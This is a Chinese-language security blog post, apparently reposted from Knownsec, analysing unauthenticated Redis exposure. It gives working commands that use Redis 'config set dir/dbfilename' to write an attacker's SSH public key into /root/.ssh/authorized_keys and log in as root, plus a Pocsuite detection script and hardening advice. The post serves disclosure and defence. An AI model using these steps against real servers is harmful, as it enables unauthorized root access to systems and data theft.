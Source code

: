 ```yaml
---
author: 403 Forbidden
comments: true
date: 2015-11-12 06:00:55+00:00
layout: post
slug: redis-%e6%9c%aa%e6%8e%88%e6%9d%83%e8%ae%bf%e9%97%ae%e9%85%8d%e5%90%88-ssh-key-%e6%96%87%e4%bb%b6%e5%88%a9%e7%94%a8%e5%88%86%e6%9e%90
title: Redis 未授权访问配合 SSH key 文件利用分析
wordpress_id: 2379
categories:
- Web 开发
---
```

Redis 未授权访问的问题是一直存在的问题，知道创宇安全研究团队历史上也做过相关的应急，今日，又出现 Redis 未授权访问配合 SSH key 文件被利用的情况，今天我们来简要的分析下。

**一、漏洞概述**
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

**1、漏洞描述**
Redis 安全模型的观念是: “请不要将 Redis 暴露在公开网络中, 因为让不受信任的客户接触到 Redis 是非常危险的” 。Redis 作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。
为其他受信任用户需要使用 Redis 或者因为运维人员的疏忽等原因，部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。
利 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

**2、漏洞影响**
Redis 暴露在公网（即绑定在0.0.0.0:6379，目标IP公网可访问），并且没有开启相关认证和添加相关安全策略情况下可受影响而导致被利用。
通过ZoomEye 的搜索结果显示，有97707在公网可以直接访问的Redis服务。
[![QQ20151111-0@2x](/uploads/2015/11/QQ20151111-0@2x.png)](/uploads/2015/11/QQ20151111-0@2x.png)
根据 ZoomEye 的探测，全球无验证可直接利用Redis 分布情况如下：
[![1副本](/uploads/2015/11/1副本.png)](/uploads/2015/11/1副本.png)
全球无验证可直接利用Redis TOP 10国家与地区：
[![2副本](/uploads/2015/11/2副本.png)](/uploads/2015/11/2副本.png)

**3、漏洞分析与利用**
首先在本地生产公私钥文件：
```shell
$ssh-keygen –t rsa
```

[![ssh-keygen](/uploads/2015/11/ssh-keygen.png)](/uploads/2015/11/ssh-keygen.png)
然后将公钥写入 foo.txt 文件
```shell
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

再连接 Redis 写入文件
```shell
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```

[![redis_ssh](/uploads/2015/11/redis_ssh.png)](/uploads/2015/11/redis_ssh.png)
这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：
```shell
$ ssh –i  id_rsa root@192.168.1.11
```

即可远程利用自己的私钥登录该服务器。
当然，写入的目录不限于 /root/.ssh 下的authorized_keys，也可以写入用户目录，不过 Redis 很多以 root 权限运行，所以写入 root 目录下，可以跳过猜用户的步骤。

**4、Redis 未授权的其他危害与利用**
**a）数据库数据泄露**
Redis 作为数据库，保存着各种各样的数据，如果存在未授权访问的情况，将会导致数据的泄露，其中包含保存的用户信息等。
[![redis_user](/uploads/2015/11/redis_user.png)](/uploads/2015/11/redis_user.png)

**b）代码执行**
Redis可以嵌套Lua脚本的特性将会导致代码执行, 危害同其他服务器端的代码执行, 样例如下
一旦攻击者能够在服务器端执行任意代码, 攻击方式将会变得多且复杂, 这是非常危险的.
[![redis_lua](/uploads/2015/11/redis_lua.png)](/uploads/2015/11/redis_lua.png)
通过[Lua代码](https://github.com/evilpacket/redis-sha-crack)([redis-sha-crack-master](/uploads/2015/11/redis-sha-crack-master.zip))攻击者可以调用 redis.sha1hex() 函数，恶意利用 Redis 服务器进行 SHA-1 的破解。

**c）敏感信息泄露**
通过 Redis 的 INFO 命令, 可以查看服务器相关的参数和敏感信息, 为攻击者的后续渗透做铺垫。
[![redis_info](/uploads/2015/11/redis_info.png)](/uploads/2015/11/redis_info.png)
可以看到泄露了很多 Redis 服务器的信息, 有当前 Redis 版本, 内存运行状态, 服务端个数等等敏感信息。

**5、漏洞验证**
可以使用Pocsuite（[http://github.com/knownsec/pocsuite](http://github.com/knownsec/pocsuite)）执行以下的代码可以用于测试目标地址是否存在未授权的Redis服务。
[python]#!/usr/bin/env python
# -*- coding:utf-8 -*-

import socket
import urlparse
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class TestPOC(POCBase):
    vulID = '89339'
    version = '1'
    author = ['Anonymous']
    vulDate = '2015-10-26'
    createDate = '2015-10-26'
    updateDate = '2015-10-26'
    references = ['http://sebug.net/vuldb/ssvid-89339']
    name = 'Redis 未授权访问 PoC'
    appPowerLink = 'http://redis.io/'
    appName = 'Redis'
    appVersion = 'All'
    vulType = 'Unauthorized access'
    desc = '''
        redis 默认不需要密码即可访问，黑客直接访问即可获取数据库中所有信息，造成严重的信息泄露。
    '''
    samples = ['']

    def _verify(self):
        result = {}
        payload = '\x2a\x31\x0d\x0a\x24\x34\x0d\x0a\x69\x6e\x66\x6f\x0d\x0a'
        s = socket.socket()
        socket.setdefaulttimeout(10)
        try:
            host = urlparse.urlparse(self.url).netloc
            port = 6379
            s.connect((host, port))
            s.send(payload)
            recvdata = s.recv(1024)
            if recvdata and 'redis_version' in recvdata:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['Port'] = port
        except:
            pass
        s.close()
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output

register(TestPOC)[/python]

**二、安全建议**
配置bind选项，限定可以连接Redis服务器的IP，修改 Redis 的默认端口6379
配置认证，也就是AUTH，设置密码，密码会以明文方式保存在Redis配置文件中
配置rename-command 配置项 “RENAME_CONFIG”，这样即使存在未授权访问，也能够给攻击者使用config 指令加大难度
好消息是Redis作者表示将会开发”real user”，区分普通用户和admin权限，普通用户将会被禁止运行某些命令，如config

**三、参考链接**



	
  * [http://www.sebug.net/vuldb/ssvid-89339](http://www.sebug.net/vuldb/ssvid-89339)

	
  * [http://antirez.com/news/96](http://antirez.com/news/96)

	
  * [http://www.secpulse.com/archives/5366.html](http://www.secpulse.com/archives/5366.html)

	
  * [http://www.sebug.net/vuldb/ssvid-89715](http://www.sebug.net/vuldb/ssvid-89715)



转载自 [http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
